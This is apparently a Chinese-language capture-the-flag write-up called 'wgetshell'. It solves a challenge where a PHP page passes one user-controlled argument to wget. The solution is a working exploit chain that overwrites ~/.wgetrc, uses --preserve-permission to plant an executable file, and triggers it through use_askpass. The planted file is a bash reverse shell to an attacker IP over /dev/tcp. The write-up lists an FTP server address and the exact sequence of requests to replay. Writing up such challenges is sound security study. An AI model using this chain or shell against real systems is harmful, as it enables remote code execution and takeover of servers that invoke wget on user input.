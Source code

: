 # wgetshell

## Solution

我们只可以控制wget后的一个参数。
参考wget手册，"GNU Wget 1.21.1-dirty Manual": https://www.gnu.org/software/wget/manual/wget.html
--use-askpass=command 选项可以执行外部的脚本或二进制文件来询问密码。


### 任意文件写漏洞

如果\~/.wgetrc文件存在，那么wget会自动加载其中的配置项。
正常使用wget，我们只可以在当前目录下下载文件。
wget支持http及ftp方法。

采用如下方法，使用--config=wgetrc1指定配置文件，下载wgetrc2至\~/.wgetrc
*wgetrc1*
```
input=urls1.txt
output_document=~/.wgetrc
```
*urls1.txt*
```
ftp://<your_ip>/wgetrc2
```

*exploit*
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc1
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls1.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc1
```

### 写入可执行文件

--preserve-permission选项可以让文件保留原有的权限（只支持从ftp server下载至本地时，所以这里使用http是不行的）

因为题目仅支持一个参数，使用上述步骤先将wgetrc2写入\~/.wgetrc
*wgetrc2*
```
input=urls2.txt
```

*urls2.txt*
```
ftp://<your_ip>/pwn
```

*pwn*
```
#!/bin/bash
bash -c "bash -i < /dev/tcp/<your_ip>/8888 1<&0 2<&0"
```

需要将ftp服务器上pwn文件添加x（可执行）权限。
*exploit*
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls2.txt
http://<challenge_ip>/wget.php?url=--preserve-permission
```

### 执行pwn脚本

*wgetrc3*
```
input=urls3.txt
output_document=~/.wgetrc
```

*urls3.txt*
```
ftp://<your_ip>/wgetrc4
```

*wgetrc4*
```
use_askpass=./pwn
```
*exploit*

```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc3
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls3.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc3
```

getshell
```
http://<challenge_ip>/wget.php?url=0
```

## 复现

自行搭建ftp服务器，将所需文件放入目录内，注意要设置匿名用户可访问。
记得将pwn脚本添加可执行权限。
![pasted-image](images/wgetshell/20220302182249.png)
依次访问下列参数
```
ftp://1.15.228.201/pub/wgetrc1
ftp://1.15.228.201/pub/urls1.txt
ftp://1.15.228.201/pub/urls2.txt
ftp://1.15.228.201/pub/wgetrc3
ftp://1.15.228.201/pub/urls3.txt
--config=wgetrc1
--preserve-permission
--config=wgetrc3
```
访问http://<challenge_ip>/wget.php?url=0
GETSHELL
![pasted-image](images/wgetshell/20220302185406.png)



